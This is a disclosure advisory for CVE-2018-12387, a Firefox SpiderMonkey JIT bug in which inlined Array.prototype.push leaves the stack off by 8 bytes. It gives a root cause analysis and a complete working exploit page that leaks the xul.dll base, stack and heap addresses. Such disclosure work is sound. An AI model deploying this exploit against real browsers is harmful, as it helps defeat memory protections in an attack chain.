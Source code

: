 **Vulnerabilities Summary**<br>
A vulnerability where the JavaScript JIT compiler inlines Array.prototype.push with multiple arguments that results in the stack pointer being off by 8 bytes after a bailout. This leaks a memory address to the calling function which can be used as part of an exploit inside the sandboxed content process.

**Vendor Response**<br>
The security vulnerability was fixed in Firefox 62.0.3 and Firefox ESR 60.2.2

**CVE**<br>
CVE-2018-12387

**Credit**<br>
Independent security researchers, Bruno Keith and Niklas Baumstark, have reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
Firefox 62.0
Firefox ESR 60.2
Vulnerability Details
While fuzzing Spidermonkey (Mozilla’s JavaScript engine written in C++), we trigger a debug assertion with the following minimized sample:
```JavaScript
function f(o) {
	var a = [o];
	a.length = a[0];
	var useless = function () {}
	var sz = Array.prototype.push.call(a, 42, 43);
	(function () {
		sz;
	})(new Boolean(false));
}
for (var i = 0; i < 25000; i++) {
	f(1);
}
f(2);
```
which triggered the following assertion:<br>
```
Assertion failure: isObject() and crashes in release
build
```

**Root Cause Analysis**<br>
The assertion described above happens while running the code generated by the JIT compiler for the function f.
Let’s look at the Intermediate representation (IR) of the JIT code:
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/just-in-time-inermediate-representation-infloleak.png"><br>

We can see two instructions arraypusht. This can be explained looking at the code responsible for inlining calls to Array.prototype.push implemented at https://dxr.mozilla.org/mozilla-central/source/js/src/jit/MCallOptimize.cpp#812 The comments inside the function mention that a call to push with multiple argument will be broken down into multiple individual arraypush{t,v} instructions. However there is some complicated logic associated with bailouts where they wish to preserve the atomicity of the call and not resume execution in-between inlined calls to push. The assertion is triggered because the stack pointer is not correctly restored when bailing out from IonMonkey to the baseline JIT and will be off by 8 bytes and hence lead to a JS_IS_CONSTRUCTING value to be fetched from the stack instead of the Boolean class.
By understanding the failure condition, we know that we need to look for opcode handlers in BaselineCompiler.cpp that perform a syncStack(0) and then address stack values via peek(). An interesting one is BaselineCompiler::emit_JSOP_INITPROP:
```c++
// Load lhs in R0, rhs in R1.
 frame.syncStack(0);
 masm.loadValue(frame.addressOfStackValue(frame.peek(-2)), R0);
 masm.loadValue(frame.addressOfStackValue(frame.peek(-1)), R1);
 // Call IC.
 ICSetProp_Fallback::Compiler compiler(cx);
 if (!emitOpIC(compiler.getStub(&stubSpace_)))
     return false;
 // Leave the object on the stack.
 frame.pop();
```
This opcode is emitted for the following JavaScript code:

```JavaScript
function f() {
	var y = {};
	var o = {
		a: y
	};
}
dis(f);
 /* bytecode:
 00000: newobject ({}) # OBJ
 00005: setlocal 0 # OBJ
 00009: pop #
 00010: newobject ({a:(void 0)}) # OBJ
 00015: getlocal 0 # OBJ y
 00019: initprop "a" # OBJ
 00024: setlocal 1 # OBJ
 00028: pop #
 00029: retrval #
 */
```

The handler tells us how this opcode gets compiled: R0 is set to stack[top-1] = o, R1 is set to stack[top] = y, then the property assignment R0.a = R1 is performed by an inline cache. Due to the shifted stack however, in the following code, the assignment stack[top].a = stack[top+1] is performed, so a JSValue is fetched from outside the stack. Due to NaN-boxing, a native pointer value will be treated as a double in this context.
```JavaScript
var test = {
	a: 13.37
};
function f(o) {
	var a = [o];
	a.length = a[0];
	var useless = function () {}
	useless + useless;
	var sz = Array.prototype.push.call(a, 1337, 43);
	(function () {
		sz
	})();
	var o = {
		a: test
	};
}
dis(f);
for (var i = 0; i < 25000; i++) {
	f(1);
}
f(100);
print(test.a);
```

```code
/* bytecode:
...
00034: lambda function() {} # FUN
00039: setlocal 1 # FUN
00043: pop #
00044: getlocal 1 # useless
00048: getlocal 1 # useless useless
00052: add # (useless + useless)
00053: pop #
00054: getgname "Array" # Array
00059: getprop "prototype" # Array.prototype
00064: getprop "push" # Array.prototype.push
00069: dup # Array.prototype.push Array.prototype.push
00070: callprop "call" # Array.prototype.push Array.prototype.push.call
00075: swap # Array.prototype.push.call Array.prototype.push
00076: getlocal 0 # Array.prototype.push.call Array.prototype.push a
00080: uint16 1337 # Array.prototype.push.call Array.prototype.push a 1337
00083: int8 43 # Array.prototype.push.call Array.prototype.push a 1337 43
00085: funcall 3 # Array.prototype.push.call(...)
...
00104: newobject ({a:(void 0)}) # OBJ
00109: getgname "test" # OBJ test
00114: initprop "a" # OBJ
00119: setarg 0 # OBJ
00122: pop #
00123: retrval #
```
Instruction 48 is there only to place a function on the stack so that the funcall instruction 85 does not throw an exception because it expects to fetch Array.prototype.push.call from the stack, but is off by 8. This prints 2.11951350117067e-310 on our system, which is the double representation of the integer value 0x27044d565235, which is a return address. The final exploit leverages this to leak a heap address, stack address as well as the base address of xul.dll.

**Exploit**<br>
```JavaScript
<script>
var convert = new ArrayBuffer(0x100);
var u32 = new Uint32Array(convert);
var f64 = new Float64Array(convert);
var BASE = 0x100000000;
function i2f(x) {
    u32[0] = x % BASE;
    u32[1] = (x - (x % BASE)) / BASE; ///
    return f64[0];
}
function f2i(x) {
    f64[0] = x;
    return u32[0] + BASE * u32[1];
}
function hex(x) {
    return `0x${x.toString(16)}`
}
var test = {a:0x1337};
function gen(m) {
    var expr = '1+('.repeat(m) + '{a:y}' + ')'.repeat(m);
    var code = `
    f = function(o) {
        var y = test;
        var a = [o];
        a.length = a[0];
        var useless = function() { }
        useless + useless + useless + useless + useless + useless;
        var sz = Array.prototype.push.call(a, 1337, 43);
        (function() { sz; })();
        var o = ${expr};
    }
    `;
    eval(code);
}
VERSION = '62.0';
function exploit() {
    var xul = 0;
    var stack = 0;
    var heap = 0;
    var leak = [];
    for (var i = 20; i >= 0; --i) {
        gen(i);
        for (var j = 0; j < 10000; j++) {
            f(1);
        }
        f(100);
        var x = f2i(test.a);
        leak.push(x);
    }
    function xulbase(addr) {
        if (VERSION == '62.0') {
            var offsets = [
                0x92fe34,
                0x3bd4108,
            ];
        } else {
            alert('Unknown version: ' + VERSION);
            throw null;
        }
        var res = 0;
        offsets.forEach((offset) => {
            if (offset % 0x1000 == addr % 0x1000) {
                res = addr - offset;
            }
        });
        return res;
    }
    xul = xulbase(leak[1]);
    stack = leak[0];
    heap = leak[3];
    var el = document.createElement('pre');
    el.innerText = (
        "XUL.dll base: " + hex(xul) + "\n" +
        "Stack: " + hex(stack) + "\n" +
        "Heap: " + hex(heap) + "\n" +
        "\nFull leak:\n" + leak.map(hex).join("\n"))
    document.body.appendChild(el);
}
</script>
<button onclick="exploit()">Go</button>
```
